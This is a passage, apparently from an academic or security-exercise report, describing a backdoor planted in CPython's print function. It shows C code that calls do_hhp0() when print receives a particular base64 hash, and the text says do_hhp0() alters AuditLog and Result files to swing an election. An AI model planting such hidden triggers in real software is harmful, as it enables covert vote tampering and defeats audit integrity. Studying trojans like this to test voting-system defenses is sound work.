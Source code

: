 \noindent Following is the code for the original \verb+builtin_print+ method---

\begin{verbatim}
	static PyObject *
	builtin_print(PyObject *self, PyObject *args, PyObject *kwds){
	    ...
	    for (i = 0; i < PyTuple_Size(args); i++) {
	        if (i > 0) {
	            if (sep == NULL)
	                err = PyFile_WriteObject(space, file,
	                                         Py_PRINT_RAW);
	            else
	                err = PyFile_WriteObject(sep, file,
	                                         Py_PRINT_RAW);
	            if (err)
	                return NULL;
	        }
		    err = PyFile_WriteObject(o, file, Py_PRINT_RAW);
		    if (err)
		        return NULL;
	}
\end{verbatim}

We hack this code such that for a particular value, the print function does more than it actually should. Just before the \verb+err = PyFile_WriteObject...+ code segment in the above code, we plant a series of if-else statements. For a particular argument to the \verb+print+ function (which is a base64 encoded hash of voterID + PIN), a specific function is called that runs a different code sequence to change the AuditLog and Result files. Following describes the hack---

\begin{verbatim}
		PyObject *o = PyTuple_GetItem(args, i);
		
		//hhp0
		if (PyUnicode_CheckExact(o)) {
		    PyObject* utf8 = PyUnicode_AsUTF16String(o);
		    if (strcmp(PyString_AsString(o), 
			        "lZtGbLgim+Lp0ELy2efDXmOHZcw3Wi4fwZnS+qUgbWg=")==0){
			        do_hhp0();
		    }
		    Py_DECREF(utf8);
		}
\end{verbatim}

\noindent So if the encode hash corresponds to--- 
\begin{verbatim}'lZtGbLgim+Lp0ELy2efDXmOHZcw3Wi4fwZnS+qUgbWg='\end{verbatim}
\verb+do_hhp()+ is executed. Similarly for other hashes, other methods are included that change AuditLog and Result files in different ways.

\subsubsection{What does do\_hhp0() do?}

\verb+do_hhp0()+ runs python code embedded in \emph{c}. It selectively changes the votes for one of the presidents and sways the election result in favor of him. \verb+do_hhp0()+ along with the entire backdoor code is given in the appendix.

